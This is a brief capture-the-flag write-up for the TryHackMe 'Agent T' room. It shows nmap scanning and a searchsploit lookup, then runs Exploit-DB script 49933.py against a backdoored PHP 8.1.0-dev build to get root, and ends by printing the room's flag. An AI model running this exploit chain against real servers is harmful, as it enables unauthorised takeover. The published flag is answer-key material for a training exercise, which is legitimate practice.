 # [Agent T](https://tryhackme.com/room/agentt)
> Something seems a little off with the server
## Scanning
scan the target

```
nmap -sS -sV -sC 10.10.151.122
```
![github](https://user-images.githubusercontent.com/90561566/212789516-7e6856e5-a97f-4f94-b9ba-8e9d66122423.png)

## HTTP
go to the webpage

![github](https://user-images.githubusercontent.com/90561566/212789709-004e2e84-376c-4ed6-b356-8a84e041d025.png)

we found a admin dardboard that contain a searchbar

## Enumeration
just try a request, i found the version of php

![github](https://user-images.githubusercontent.com/90561566/212789919-c64048e0-a715-4fd9-ac34-888da01d0d76.png)

quick search for cve

```
searchploit php 8.1.0-dev
```
![github](https://user-images.githubusercontent.com/90561566/212790271-2c9a022a-50d6-456b-90bb-311c1bbb8fb6.png)

## Exploitation
```
searchsploit -m 49933.py
python3 49933.py
```
![github](https://user-images.githubusercontent.com/90561566/212790541-dc03c007-0b5b-4b06-b2fd-8f188858c147.png)

wow amazing, we got root user
```
find / -name *flag*.txt 2>/dev/null
```
![github](https://user-images.githubusercontent.com/90561566/212790782-4676cfc0-c4c7-41de-94c3-54b76bf9335a.png)

| Flag | user.txt |
| :--- | :--- |
| Answer | flag{4127d0530abf16d6d23973e3df8dbecb} |
